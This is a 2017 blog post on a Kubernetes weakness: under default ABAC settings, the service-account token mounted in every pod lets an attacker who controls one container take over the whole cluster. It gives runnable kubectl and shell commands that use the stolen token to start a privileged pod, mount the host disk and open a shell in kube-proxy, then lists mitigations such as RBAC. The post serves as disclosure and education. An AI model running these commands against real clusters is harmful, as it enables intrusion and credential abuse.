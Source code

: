 +++
title = "The Kubernetes Vuln No One Wants to Talk About"
date = "2017-07-10"
type = "post"
author = "antitree"
+++

![Kubernetes](/img/Kubernetes.png)

## Summary

This blog post is going to show you how to go from exploiting a single container
to gaining root on an entire cluster and all nodes. This is caused by a default
flaw in the way Kubernetes manages containers.

I'm doing a lot more container work at my day job -- looking for container breakouts, container infastructure review, and orchestration technologies.
I've been involved in a few Kubernetes reviews and talked with others in the company about it and there's one vulnerability
that seems to make it into almost every report and yet no one thinks it's as important
as the security folks. So I want to start a dialog.

The issue is that in order for a container/pod to be orchestrated by Kubernetes, it must put
an authentication token _inside_ of the pod. This token grants access complete
control over the kubernetes cluster.

The short of it is this:

**If a single container is compromised, attackers can take over
other pods, nodes, and the entire cluster. Easily.**

If you don't like reading, just open up one of your Kubernetes pods and
look at `/var/run/secrets/kubernetes.io/serviceaccount/token`. If you see
something there you're probably at risk.

## Kubernetes Background

Kubernetes is a system from Google that is seeming (at least to me) to be the
defacto standard for container orchestration. 
Before I go into this one issue, I can say that I actually think it's a great product. It allows you to
orchestrate containers, keep track of key value pairs, handle secrets, and
setup the necessary infrastucture to do all of this out-of-the-box. This
is in comparison to bash scripts and cron jobs that container orchestration
has been doing previously.

The main selling point is scalability and management. Kubernetes can scale up not just
to run additional containers on a system, but create geographicaly disparate
containers across a network overlay seamslessly integrated with a load balancer
that can also auto-heal when it needs.

Kubernetes is in direct competition with Docker Swarm which aims to be
a native solution built directly into Docker. Docker Swarm does support
a lot of the same features but it relies on a lot of additional support
to make it work. (e.g. KV pair storage)

![Kubernetes Diagram](/img/kubernetes_diagram.png)

A couple of Kubernetes words that are operationally important:

* [Pod](https://kubernetes.io/docs/concepts/workloads/pods/pod/): For the sake of discussion, synonymous with container.
* [Node](https://kubernetes.io/docs/concepts/architecture/nodes/): A VM or box that can run pods.
* Services: Applications that do something on your cluster. (e.g. nginx)
* Master Node: A dedicated node that controls all other services.

If you're an attacker, the things you need to know is there could be lots of
services deployed in a cluster. But there is always one Kubernetes Service that
runs all of the management containers. Compromising this service compromises
everything else.

The main flaw as others have mentioned, is there is no security boundary between pods,
nodes, and services. Compromising one compromises them all (unless you're using
RBAC authentication).

## Exploit Setup

I'm not going to say that this attack works on all systems but here are the systems
that it affects:

* Latest Kubernetes as of writing the post
* ABAC authentication controls (default)

If you want to try this out, you can follow the pretty simple
[getting-started guide](https://kubernetes.io/docs/getting-started-guides/minikube/).


## Exploit
* Exploit the container. Run a vulnerable package, get compromised, however
it happens, the attacker is able to get a shell inside of the contatiner.
* Download the `kubectl` binary to interact with the Kubernetes API. Depending
on the pod you might have to install things like curl or wget:

```bash
apt update
apt install curl
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.6.7/bin/linux/amd64/kubectl
chmod +x ./kubectl
```

* You're going to need to find the Kubernetes cluster master node. Here's
how to find it if you're running the infrastructure:

`kubectl get services`

You'll see
```bash
NAME         CLUSTER-IP   EXTERNAL-IP   PORT(S)        AGE
ghost        10.0.0.134   <nodes>       80:30916/TCP   20m
kubernetes   10.0.0.1     <none>        443/TCP        21m
nginxtest    10.0.0.57    <pending>     80:31399/TCP   11m
```
This represents a ghost container, nginx, and the core kubernetes service which
is what I care about.

But as the attacker you're going to figure out something else. Like:
~~~bash
apt update
apt install nmap
nmap -sS -p443 10.0.0.0/24
~~~
I haven't looked to see how this IP is chosen but it's always been .1 using
Minikube and Tectonic. Your mileage may vary.

* With that information I can now choose to authentication to the kubernetes
API on "10.0.0.1". Check out this command:

```bash
./kubectl --server=https://10.0.0.1
--insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)" \
run --rm -i -t busybox --image=busybox --restart=Never \
--overrides='{"apiVersion": "v1", "spec":{"containers":
[{"name":"busybox","image":"busybox","stdin":true, "tty":true,
"securityContext":{"privileged":true}}]}}'
```

This is connecting to the Kubernetes service API, using the token found in
`/var/run/secrets/kubernetes.io/serviceaccount/token`, and starting
a priveleged busy box container -- the priveleged option is obviously the
important part.

* You're now the root user inside a container that maps host information into
the container. From there why not try to read everything on the host file system
```mkdir ohno
mount /dev/sda1 ohno
ls ohno/
```
You've just gained access to all files on that node. There are
more malicious things you can do but container breakouts are a separate subject.

Alternatively, if your goal is to compromise the rest of the cluster, why not
just create a shell inside of the master node's kube-proxy?
```
./kubectl --server=https://master-node --insecure-skip-tls-verify=true \
--token="$(</var/run/secrets/kubernetes.io/serviceaccount/token)"
exec --namespace=kube-system \
-it name-of-kube-proxy-image -c kube-proxy bash
```

**To summarize, you've just pivoted from one compromised pod to compromising
the entire cluster**

## Why it works

The KubeAdmin API communicates using a token (using ABAC auth). This token file is located at
`/var/run/secrets/kubernetes.io/serviceaccount/token`. It's there to send
back useful information to Kubernetes. What's worse is deleting it just means
that it'll be re-created. It's actually a mounted path if you look at it:
`tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)`

## The fix
Like I said, I don't want to shame Kubernetes. It's going to be a solid product
and their roadmap is great. This is a known issue that should be highlighted
because IMHO, it makes it less secure than someone that ran their own container
orchestration with scripts. I really want Kubernetes to build security boundaries
between each of its components.

Until that happens, here's what you can do to mitigate:

* [Role-Based Access Controls](https://kubernetes.io/docs/admin/authorization/rbac/):
This has been supported for a while but
it was not enabled by default. If you don't use this, AFAIK, you're going
to be vulnerable.
* [Hack jobs](https://hackernoon.com/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0): You can think about doing things to try to protect this value
from being read by anyone else. Like I said deleting it doesn't do anything but
overmounting it with an empty directory might slow down an attacker.
* [Wait](https://github.com/kubernetes/kops/issues/1577):** Kubernetes knows about the issue and it's about determining
how to phase the problem out.

Can you think of a better idea? Email me, I'd be interested in hearing it. In
the mean time, if you ever find yourself in a net-pen and compromise a container,
this is your ticket to taking over the rest of their infrastructure.
